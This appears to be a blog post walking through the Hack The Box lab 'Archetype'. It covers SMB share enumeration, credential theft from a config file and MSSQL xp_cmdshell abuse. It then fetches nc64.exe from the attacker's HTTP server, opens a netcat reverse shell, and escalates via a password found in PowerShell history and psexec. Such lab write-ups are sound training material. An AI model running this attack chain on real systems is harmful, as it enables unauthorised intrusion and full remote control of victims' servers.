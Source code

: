 ```yaml
---
layout: post
title: 'HTB | Archetype'
permalink: /htb/starting-point/archetype/
---
```



# Enumeration

The nmap will show us:
{% highlight bash %}
> nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
{% endhighlight %}

We will try to see which folders are share.
{% highlight bash %}
> smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

{% endhighlight %}

And then try to connect to **backups**:
{% highlight bash %}
> smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
> cat prod.dtsConfig  
{% endhighlight %}

There we can see:
{% highlight plain %}
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
{% endhighlight %}



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
{% highlight bash %}
> sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
{% endhighlight %}

# Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
{% highlight mysql %}
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
{% endhighlight %}

Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
{% highlight mysql %}
SQL> sp_configure
{% endhighlight %}

We need to activate the advanced options:
{% highlight mysql %}
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
{% endhighlight %}

And then we can activate the shell:
{% highlight mysql %}
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
{% endhighlight %}

Now we can get the **user flag**:
{% highlight mysql %}
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
{% endhighlight %}

We will make a reverse shell.
First we will start a nc in the port 443.
{% highlight bash %}
> sudo nc -lvnp 443
{% endhighlight %}

Now we will create a http server in the same folder where we have the **nc64.exe** file.
{% highlight bash %}
> sudo python3 -m http.server 80 
{% endhighlight %}

We need to download that file in the server. Because we don't have root access we will use the normal user.
{% highlight mysql %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
{% endhighlight %}

The **http.server** will receive the following line:
{% highlight plain %}
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
{% endhighlight %}

Now we execute the command and send the cmd to the 443 port (where we are listening):
{% highlight mysql %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
{% endhighlight %}

# Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
{% highlight batch %}
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
{% endhighlight %}

In the http.server we can see that works:
{% highlight batch %}
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
{% endhighlight %}

No we will execute the script:
{% highlight batch %}
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
{% endhighlight %}

We can check the shell history for credentials (like **.bash_history**).
{% highlight batch %}
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
{% endhighlight %}

With the password we have now we will use another script from impacket, **psexec.py**:
{% highlight bash %}
> python3 psexec.py administrator@10.129.221.7
{% endhighlight %}

We can use the password from before and now we are in the Administrator user:
{% highlight batch %}
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
{% endhighlight %}
